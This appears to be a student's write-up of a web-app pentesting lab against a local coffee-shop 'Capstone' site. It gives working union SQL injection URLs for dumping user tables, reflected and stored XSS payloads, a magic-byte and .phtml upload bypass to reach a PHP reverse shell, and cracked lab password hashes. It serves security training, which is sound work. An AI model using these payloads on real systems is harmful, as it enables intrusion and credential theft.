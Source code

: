 # Web Application Capstone

### Enumeration

[Ffuf scan results](./capstone/capstone.ffuf)

**Pages/Directories**

/index.php
/coffee.php
/auth.php
/assets/
/admin/
/admin/admin.php

/assets exposes HTTP server version and OS

![Server](./pictures/capstone-http-server.png)

Using the cracked admin credentials we can access the admin panel admin.php, where there is a file upload 
functionality

There is a client side extension filter and a server side magic byte filter which can be bypassed by using a 
PNG magic byte and using the .phtml extension

The file is renamed but the extension is not changed allowing us to upload a PHP reverse shell and access it 
with the id.phtml file name format. The last coffe image is 8.png, our test upload is 9.png so the shell is 
10.phtml.

Navigating to http://localhost/capstone/assets/10.phtml executes our reverse shell giving us RCE

**User Sign-up**

test:test
test2:test2
admin:test

On sign-up the message parameter is set to `You successfully signed up` in the URL

message value is reflected back, Refelcted XSS found with `<script>prompt(1)</script> `

**User Login**

On login the message parameter is set to `You successfully logged in` in the URL

**Products**

Viewing the coffee products sends a get request to coffee.php with the coffee parameter, an integer id

/coffee.php?coffee=1

Parameter is vulnerable to SQLi

![SQLi](./pictures/capstone-sqli.png)

![DB dumped](./pictures/capstone-sqli-dump.png)

```
Table: users
[11 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
| 9       | user   | $2y$10$xFAj5gKskIKUJ5MxsEEqI.v7/eP/sqTipl333WeNKdAjzf5i1hu5O | test     |
| 10      | user   | $2y$10$Sx0lU/c1.7IXdhcseSjWJulsDLnxwpHQGnZtNXNylqw2119Ai8JIu | test2    |
| 11      | user   | $2y$10$OnmxY5jm4SUaNedAl6/5tuXJjPU.ke6L6BQu/3P1T8/iCT1VwIo.O | admin    |
+---------+--------+--------------------------------------------------------------+----------+
```

Hashes cracked (rockyou and xato top 10000):

jeremy -> $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy:captain1
bob -> $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC:qwerty
maria -> $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi:maria
amir -> $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW:cheesecake
kofi -> $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.:paris

Add rating has a comment text box, Stored XSS injection found with `<script>print(1)</script>` and tested 
with firefox containers and 2 different users (test:test and test2:test2)

### Walkthrough

**coffee SQLi**

Missed testing SQLi in the comment post, test all possible vulnerabilities even if previously exploited

Informational issue with processing of coffee id error

SQLi can be triggered manually in the coffee parameter:

`http://localhost/capstone/coffee.php?coffee=1' or 1=1-- -`

Union SQLi with 7 columns

`http://localhost/capstone/coffee.php?coffee=1' union select null,null,null,null,null,null,null-- -`

Use string in place of the null values to find where data can be displayed:

`http://localhost/capstone/coffee.php?coffee=1' union select null,'string','string',null,null,null,null-- -`

Use the string value to extract the table names from information_schema.tables:

`http://localhost/capstone/coffee.php?coffee=1' union select null,TABLE_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.TABLES-- -`

Find column names:

`http://localhost/capstone/coffee.php?coffee=1' union select null,COLUMN_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.COLUMN-- -`

Extract usernames and passwords:

`http://localhost/capstone/coffee.php?coffee=1' union select null,username,password,null,null,null,null FROM users`

**File Upload**

Basic .php extension can be used, admin panels and internal resources are usually more lax in terms of 
security

**Mitigations**

Use parameterized statements to avoid SQLi vulnerabilities
